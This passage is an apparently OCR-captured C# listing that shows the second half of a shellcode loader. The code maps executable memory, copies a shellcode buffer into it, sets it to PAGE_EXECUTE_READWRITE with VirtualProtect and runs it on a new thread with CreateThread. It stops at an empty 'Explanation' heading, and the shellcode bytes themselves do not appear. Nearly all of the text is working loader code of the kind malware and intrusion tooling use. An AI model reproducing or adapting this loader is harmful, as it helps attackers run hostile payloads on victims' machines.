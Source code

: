 ```csharp
            FILE_MAP_WRITE | FILE_MAP_READ | FILE_MAP_EXECUTE,
            0,
            0,
            (UIntPtr)shellcode.Length);

        if (lpBaseAddress == IntPtr.Zero)
        {
            Console.WriteLine("MapViewOfFile failed.");
            return;
        }

        // Copy the shellcode to the mapped memory
        Marshal.Copy(shellcode, 0, lpBaseAddress, shellcode.Length);

        // Change the protection of the mapped memory to execute
        uint oldProtect;
        if (!VirtualProtect(lpBaseAddress, (UIntPtr)shellcode.Length, PAGE_EXECUTE_READWRITE, out oldProtect))
        {
            Console.WriteLine("VirtualProtect failed.");
            UnmapViewOfFile(lpBaseAddress);
            return;
        }

        // Create a thread to execute the shellcode
        IntPtr hThread = CreateThread(
            IntPtr.Zero,
            UIntPtr.Zero,
            lpBaseAddress,
            IntPtr.Zero,
            0,
            out uint threadId);

        if (hThread == IntPtr.Zero)
        {
            Console.WriteLine("CreateThread failed.");
            UnmapViewOfFile(lpBaseAddress);
            return;
        }

        // Wait for the thread to finish execution
        WaitForSingleObject(hThread, INFINITE);

        // Cleanup
        UnmapViewOfFile(lpBaseAddress);
        Console.WriteLine("Shellcode executed successfully.");
    }
}
```

### Explanation

